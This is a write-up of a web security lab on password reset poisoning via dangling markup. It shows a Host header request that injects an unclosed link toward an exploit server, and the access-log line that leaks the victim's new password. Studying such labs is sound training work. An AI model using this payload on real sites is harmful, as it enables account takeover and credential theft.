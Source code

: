 # Password reset poisoning via dangling markup

**Request:**
The lab is vulnerable to password reset poisoning via dangling markup.

The goal is to login to Carlos's account.

`wiener:peter` can be used to login.

**Solution:**
I tried to change the password of my current user `wiener`. 

When I checked on the email, I saw the request came but not with the token on the URL.

It had the new password on the email body, which ould be viewed by using the option view raw.

Usual methods didn't work on changing the Host, using Burp Repeater on the `forgot password` request.

But, then after I tried to put some non-numeric domain on the Host, such as:

```http
POST /forgot-password HTTP/2
Host: 0a5f00ba03ab573e810180e400ba009e.web-security-academy.net:test
```
The response was `200 OK`, so I can use this vulnerability.

I put my exploit server instead of `test`, and it became:

```http
POST /forgot-password HTTP/2
Host: 0a5f00ba03ab573e810180e400ba009e.web-security-academy.net:'<a href="https://exploit-0a33000503d7571b81407fe001b60065.exploit-server.net/exploit
```

After I sent this, I viewed the access log on my exploit server, and I saw:

```http
GET /exploit/login'>click+here</a>+to+login+with+your+new+password:+ruqZ1DamYn</p><p>Thanks,<br/>Support+team</p>
```

So I used this password `ruqZ1DamYn`, and I got access to the `carlos` account.